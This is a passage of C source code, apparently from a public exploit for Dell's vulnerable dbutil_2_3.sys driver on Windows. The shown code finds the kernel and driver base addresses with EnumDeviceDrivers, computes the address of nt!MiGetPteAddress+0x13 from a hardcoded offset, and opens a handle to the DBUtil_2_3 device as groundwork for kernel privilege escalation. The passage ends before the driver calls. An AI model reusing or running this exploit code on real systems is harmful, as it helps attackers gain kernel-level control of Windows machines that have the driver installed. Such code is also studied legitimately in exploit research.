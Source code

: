 ```c
		lpImageBase,
		sizeof(lpImageBase),
		&lpcbNeeded
	);

	// Error handling
	if (!baseofDrivers)
	{
		printf("[-] Error! Unable to invoke EnumDeviceDrivers(). Error: %d\n", GetLastError());
		exit(1);
	}

	// Defining number of drivers for GetDeviceDriverBaseNameA()
	drivers = lpcbNeeded / sizeof(lpImageBase[0]);

	// Parsing loaded drivers
	for (int i = 0; i < drivers; i++)
	{
		GetDeviceDriverBaseNameA(
			lpImageBase[i],
			lpFileName,
			sizeof(lpFileName) / sizeof(char)
		);

		// Keep looping, until found, to find user supplied driver base address
		if (!strcmp(name, lpFileName))
		{
			imageBase = (unsigned long long)lpImageBase[i];

			// Exit loop
			break;
		}
	}

	return imageBase;
}


void exploitWork(void)
{
	// Store the base of the kernel
	unsigned long long baseofKernel = kernelBase("ntoskrnl.exe");

	// Storing the base of the driver
	unsigned long long driverBase = kernelBase("dbutil_2_3.sys");

	// Print updates
	printf("[+] Base address of ntoskrnl.exe: 0x%llx\n", baseofKernel);
	printf("[+] Base address of dbutil_2_3.sys: 0x%llx\n", driverBase);

	// Store nt!MiGetPteAddress+0x13
	unsigned long long ntmigetpteAddress = baseofKernel + 0xbafbb;

	// Obtain a handle to the driver
	HANDLE driverHandle = CreateFileA(
		"\\\\.\\DBUtil_2_3",
		FILE_SHARE_DELETE | FILE_SHARE_READ | FILE_SHARE_WRITE,
		0x0,
		NULL,
		OPEN_EXISTING,
		0x0,
		NULL
	);
```